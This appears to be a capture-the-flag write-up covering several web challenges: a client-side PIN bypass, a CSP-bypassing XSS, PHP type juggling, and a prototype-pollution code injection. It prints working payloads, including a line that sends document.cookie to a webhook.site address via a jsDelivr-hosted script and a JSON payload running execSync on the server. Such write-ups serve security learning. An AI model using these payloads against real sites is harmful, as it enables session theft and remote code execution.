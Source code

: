 This challenge involves using the console in the `developer tools`. In `script.js`, we can see that `currentPin` is an `array`, and it is compared to `correctPin: "3030"`. From here, we can manipulate it by directly assigning `currentPin` to the correct `password` in array format: `currentPin = ["3", "0", "3", "0"]`. After that, we call the `checkPin()` function to verify, and we obtain the `flag`

## Cursed Secret Party

In this challenge, we need to bypass `CSP`(Content-Security-Policy ) to execute an `XSS injection`. I used a [webhook](https://webhook.site/) to receive the `token` sent back, and this URL was referenced using the `JSDeliver CDN`

Create a public `Github repository` and a `script` (a.js)

```shell
location="https://webhook.site/ac0401dc-4c52-427a-9ef0-0b5a8f8682dc/?c="+document.cookie
```

And conver at [here](https://www.jsdelivr.com/github)

![pic1](https://hackmd.io/_uploads/ry1S5Ro8kg.png)

`payload`

```javascript
<script src="https://cdn.jsdelivr.net/gh/zh13uz/a@main/a.js"></script>
```

![pic2](https://hackmd.io/_uploads/HyjhqRsIkx.png)

After that, just decode the [JWT](https://jwt.io/) to get the `flag`

## Juggling facts

This challenge involves a `PHP Type Juggling` vulnerability. It appears that we need to access the `secrets` `type` to retrieve the content. I found related websites, and instead of passing a value, I manipulated it to always evaluate as true to bypass the validation.

![pic1](https://hackmd.io/_uploads/ryINTCiL1x.png)

## Gunship

While reading the source code in `/challenge/routes/index.js`, a fairly common vulnerability was found: `AST injection`

`Documents` at [here](https://hackmd.io/@CP04042K/rkPZgkAes)

`payload`
```javascript
{
    "artist.name":"Haigh",
    "__proto__.block": {
        "type": "Text",
        "line":
        "console.log(process.mainModule.require('child_process').execSync('ls -al > /app/static/cc').toString())"
    }
}
```
